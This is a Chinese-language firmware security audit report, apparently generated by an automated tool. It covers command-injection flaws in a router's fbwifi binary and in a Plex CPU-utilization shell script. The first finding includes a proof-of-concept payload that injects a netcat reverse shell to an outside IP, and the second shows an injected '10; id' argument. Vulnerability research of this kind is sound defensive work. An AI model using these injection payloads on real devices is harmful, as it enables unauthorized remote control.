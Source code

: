 
## 原始信息

- **文件/目录路径：** `bin/fbwifi`
- **位置：** `fbwifi:0x000177bc fcn.000177bc`
- **描述：** 函数 fcn.000177bc 处理用户输入（可能来自 HTTP 请求参数），并使用这些输入构建 'fbwifi_nvram set' 和 'fbwifi_nvram commit' 命令。输入直接拼接进命令字符串中，未经过滤或验证，导致命令注入漏洞。攻击者可以通过注入 shell 元字符（如 ';', '|', '&'）在系统上下文中执行任意命令。触发条件：攻击者发送特制的 HTTP 请求到相关端点（如 /auth），包含恶意参数。潜在攻击包括获得设备控制权、提升权限或泄露敏感信息。
- **代码片段：**
  ```
  关键代码片段：
  - 0x000177ec: ldrb r1, [r4]  ; 从参数加载用户输入
  - 0x00017820: bl sym.imp.system  ; 执行系统命令
  - 0x0001787c: bl sym.imp.system  ; 执行系统命令
  - 0x000178d8: bl sym.imp.system  ; 执行系统命令
  - 0x000178e0: bl sym.imp.system  ; 执行 'fbwifi_nvram commit'
  ```
- **备注：** 漏洞依赖于用户输入的直接使用，缺少转义或验证。建议对输入进行严格的过滤和转义。需要进一步验证 HTTP 请求处理函数以确认输入源。关联函数：fcn.0000ec90（调用者）。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述准确：函数 fcn.000177bc 处理用户输入（来自 HTTP 请求参数，通过 fcn.0000ec90），并直接拼接输入到 'fbwifi_nvram set' 和 'fbwifi_nvram commit' 命令中，未经过滤或验证。反编译代码显示多次调用 system 函数（地址 0x00017820、0x0001787c、0x000178d8、0x000178e0），且字符串 'fbwifi_nvram commit' 被确认。攻击者模型为未经身份验证的远程攻击者，通过发送特制 HTTP 请求到相关端点（如 /auth）可控制输入。完整攻击链：攻击者注入 shell 元字符（如 ';'、'|'）到参数中，导致任意命令执行。PoC 步骤：发送 HTTP 请求到端点，参数值包含注入载荷，例如 '; nc -e /bin/sh 192.168.1.100 4444 ;'，从而在设备上执行反向 shell。漏洞实际可利用，风险高，可能导致设备完全控制。

## 验证指标

- **验证时长：** 348.78 秒
- **Token 使用量：** 507957

---

## 原始信息

- **文件/目录路径：** `etc/plexmediaserver/cpu_utilization.sh`
- **位置：** `cpu_utilization.sh: top_usage 函数`
- **描述：** 在 top_usage 函数中，命令行参数 $2 被直接用于 head -$1 命令而没有输入验证或转义，导致命令注入漏洞。攻击者可通过调用脚本并传递恶意参数（如 '10; id'）来执行任意命令。触发条件为：当脚本的第一个参数为 'top' 时，第二个参数被传递并用于 head 命令。如果第二个参数包含 shell 元字符（如分号、反引号），后续命令将被执行。潜在利用方式包括执行系统命令、访问敏感文件或进一步权限提升。代码逻辑中缺少对参数的边界检查和过滤，使漏洞实际可利用。
- **代码片段：**
  ```
  if [ "x$1" = "x" ];then
      cat $top_usage_tmp_file | sed '1d' | sed '$d' | sort -k3nr >> $top_usage_file
  else
      cat $top_usage_tmp_file | sed '1d' | sed '$d' | sort -k3nr | head -$1 >> $top_usage_file
  fi
  ```
- **备注：** 漏洞证据明确，攻击链完整。假设脚本可由攻击者（非 root 用户）执行。如果脚本以更高权限（如 root）运行，风险将显著增加。建议验证脚本的执行上下文和权限，并实施输入验证（如使用引号或验证数字输入）。关联文件：可能由系统服务或用户调用，需进一步分析调用上下文。
